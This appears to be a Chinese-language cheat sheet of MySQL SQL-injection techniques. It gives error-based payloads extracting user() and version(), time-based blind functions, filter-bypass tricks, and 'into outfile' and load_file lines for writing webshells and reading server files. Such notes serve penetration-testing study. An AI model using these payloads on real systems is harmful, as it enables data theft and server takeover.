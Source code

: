 ## 绕过逗号过滤
在使用盲注的时候，需要使用到substr(),mid(),limit.这些字句方法都需要使用到逗号。都与substr和mid()这两个方法，可以使用from for的方式来解决
## insert 注入
insert注入一般为时间盲注，本身不存在bool盲注。
## mysql报错函数
### 通用的报错函数
geometrycollection() //在mysql 5.6/mariadb 10.1中测试无报错
multipoint()         //在mysql 5.6/mariadb 10.1中测试无报错
polygon()            //在mysql 5.6/mariadb 10.1中测试无报错
multipolygon()       //在mysql 5.6/mariadb 10.1中测试无报错
linestring()         //在mysql 5.6/mariadb 10.1中测试无报错
mulilinestring()     //在mysql 5.6/mariadb 10.1中测试无报错
floor()              //可用，select * from test where id=1 and (select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2)));
updatexml()          //可用，select * from test where 1 and updatexml(1,(select concat(0x7e,user())),1)
extractvalue()       //可用，select * from test where id =1 and extractvalue(1,(select concat(0x7e,user())));
exp()                //在mysql 5.6可用/mariadb 10.1中测试无报错，select * from test where i and exp(~(select * from(select user())a));
### mysql5.7以上才有的报错函数
ST_LatFromGeoHash()
ST_LongFromGeoHash()
GTID_SUBSET()
ST_PointFromGeoHash()
## mysql中字符串拼接函数
left(str,length)           //从字符串左侧截取str的前length位
right(str,length)           //从字符串右侧截取
mid(str,pos,len)          //从pos位置开始，截取字符串str的len长度
substr(a,b,c)               //效果同mid
substring(str,pos)         //从pos位置开始，截取到最后
## mysql中基于时间的盲注函数
+ sleep
+ banchmark

## mysql写shell
+ select 'xxxx' into outfile '路径'
+ select 'xxxx' into dumpfile '路径'
mysql读文件：select load_file('路径');

## mysql udf提权

## mysql一些技巧
'='被过滤，可以用like代替
' '被过滤，可以用`/**/`,`/!**/`,%0a,%0b,'+'来尝试绕过
','被过滤，可以用join来绕过
